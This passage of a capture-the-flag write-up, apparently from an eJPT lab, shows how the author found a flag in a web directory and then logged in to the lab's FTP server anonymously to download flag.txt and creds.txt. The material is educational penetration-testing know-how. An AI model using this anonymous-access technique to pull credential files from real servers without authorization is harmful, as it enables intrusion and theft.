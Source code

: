 Now the second task hint was **The gatekeeper's instructions often reveal what should remain unseen. Don't forget to read between the lines.** 
In my opinion that means we should pay attention to port 80 since the third question seems more relevant to FTP. 

I navigate to the the *secret-info* directory in the browser since it seems interesting. That shows us this: 
![Image 2]({{ site.baseurl }}/assets/ejpt/eJPT-Assessment%20Methodologies-%20Footprinting%20and%20Scanning-%20CTF%20Flag%202.png)



Hence this shows us the flag.txt file. We can append it to the directory path and go there and we'll get out flag. 

## Flag 3

Now we will pay attention to the third task . 
It says something about anonymous access and the nmap output confirmed that as well. Now to get anonymous login we run the following commands:
```bash

┌──(root㉿INE)-[~]
└─# ftp target.ine.local
Connected to target.ine.local.
220 (vsFTPd 3.0.5)
Name (target.ine.local:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Basically we do not need a password and we can just login using anonymous as username and no password as the password. 

```bash
ftp> ls
229 Entering Extended Passive Mode (|||46790|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              22 Oct 28  2024 creds.txt
-rw-r--r--    1 0        0              39 Jul 14 06:32 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||65046|)
150 Opening BINARY mode data connection for flag.txt (39 bytes).
100% |****************************************************************************************************************|    39      264.48 KiB/s    00:00 ETA
226 Transfer complete.
39 bytes received in 00:00 (54.48 KiB/s)
ftp> get creds.txt
local: creds.txt remote: creds.txt
229 Entering Extended Passive Mode (|||26523|)
150 Opening BINARY mode data connection for creds.txt (22 bytes).
100% |****************************************************************************************************************|    22      190.12 KiB/s    00:00 ETA
226 Transfer complete.
22 bytes received in 00:00 (26.32 KiB/s)
ftp> exit
221 Goodbye.

```
